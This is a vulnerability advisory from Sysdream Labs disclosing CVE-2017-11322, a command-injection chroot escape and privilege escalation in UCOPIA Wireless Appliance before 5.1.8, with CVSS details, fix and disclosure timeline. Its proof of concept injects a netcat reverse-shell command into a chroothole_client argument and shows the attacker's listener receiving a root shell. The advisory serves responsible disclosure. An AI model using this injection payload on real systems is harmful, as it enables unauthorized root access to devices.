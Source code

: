 # [CVE-2017-11322] UCOPIA Wireless Appliance < 5.1.8 Privileges Escalation

## Asset description

UCOPIA solutions bring together a combination of software, appliance and cloud services serving small to large customers.

More than 12,000 UCOPIA solutions are deployed and maintained by UCOPIA expert partners all over the world.

The affected asset in this report is a WiFi management appliance.

## Vulnerability

CHROOT escape and privileges escalation.

**Threat**

Improper sanitization of system commands in the chroothole_client executable in UCOPIA Wireless Appliance, prior to 5.1.8, allows local attackers to elevate privileges to root user and escape from the *chroot*.

**CVE ID**: CVE-2017-11322

**Access Vector**: local

**Security Risk**: high

**Vulnerability**: CWE-78

**CVSS Base Score**: 8.2 (High)

**CVSS Vector**: CVSS:3.0/AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept: chroot escape / privileges escalation

The **chroothole_client** binary is used by the appliance to run programs outside the *chroot*, as the **root** user.

Because of an improper sanitization of system commands, we managed to gain a complete **root** access to the appliance, outside the *chroot*.

```
$ chroothole_client '/usr/sbin/status'
is not running ... failed !
$ chroothole_client '/usr/sbin/status $(which nc)'
/bin/nc is not running ... failed!
$ chroothole_client '/usr/sbin/status $(nc 10.0.0.125 4444 -e /bin/sh)'
```

Attacker terminal :

```
$ ncat -lvp 4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.1:49156.
whoami
root
```

## Solution

Update to UCOPIA 5.1.8

## Timeline (dd/mm/yyyy)

* 08/03/2017 : Vulnerability discovery.
* 03/05/2017 : Initial contact.
* 10/05/2017 : GPG Key exchange.
* 10/05/2017 : Advisory sent to vendor.
* 17/05/2017 : Request for feedback.
* 22/05/2017 : Vendor acknowledge the vulnerabilities.
* 21/06/2017 : Sysdream Labs request for an ETA, warning for public disclosure.
* 21/06/2017 : Vendor say that the UCOPIA 5.1.8 fixes the issue.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas CHATELAIN, Sysdream (n.chatelain -at- sysdream -dot- com)

--
SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/
* Twitter: @sysdream
